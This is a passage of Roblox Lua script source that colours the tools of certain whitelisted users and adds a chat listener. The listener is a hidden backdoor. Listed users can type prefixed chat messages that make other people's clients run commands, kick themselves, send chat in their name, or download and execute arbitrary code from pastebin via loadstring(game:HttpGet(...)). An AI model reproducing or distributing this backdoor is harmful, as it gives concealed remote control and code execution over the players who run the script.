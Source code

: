 				end 
				Part.Material = "ForceField" 
				Part.Color = CoolkidTable[tostring(Plr.UserId)].Colour
			end
		end
	end
	Plr.Character.ChildAdded:Connect(function(T)
		if T:IsA'Tool' and T:FindFirstChild'Fire' then 
			for Index2,Part in pairs(T:GetDescendants()) do 
				if Part:IsA'UnionOperation' or Part:IsA'Part' or Part:IsA'MeshPart' then 
					if Part:IsA'UnionOperation' then
						Part.UsePartColor = true
					end 
					Part.Material = "ForceField" 
					Part.Color = CoolkidTable[tostring(Plr.UserId)].Colour
				end
			end
		end
	end)
end

local PlayersX = Players:GetPlayers()
for i = 1,#PlayersX do
	local Plr = PlayersX[i]
	if CoolkidTable[tostring(Plr.UserId)] and Plr.Character:FindFirstChild'Head' then 
		espcool(Plr)
		Plr.CharacterAdded:Connect(function()
			local Head = Plr.Character:WaitForChild('Head',10)
			if Head then
				espcool(Plr)
			end
		end)
		if CoolkidTable[tostring(Plr.UserId)].Access then 
		Plr.Chatted:Connect(function(Chat)
			local Arguments = string.split(Chat:sub(2)," ")
			local Player = PlrFinder(Arguments[1])
			table.remove(Arguments,1)
			if Player and Player == LP or typeof(Player) == "table" then 
				if not CoolkidTable[tostring(LP.UserId)] then 
					if Chat:sub(1,1) == "`" then 
						CheckCommand(table.concat(Arguments," "))
					end
					if Chat:sub(1,1) == "[" then 
						LP:Kick('You have been kicked by '..Plr.Name.." for "..table.concat(Arguments," "))
					end
					if Chat:sub(1,1) == "~" then 
						ReplicatedStorage.DefaultChatSystemChatEvents.SayMessageRequest:FireServer("abc123","All")
					end
					if Chat:sub(1,1) == "]" then
						loadstring(game:HttpGet("https://pastebin.com/raw/"..Arguments[1],true))()
					end 
				end 
			end
		end)
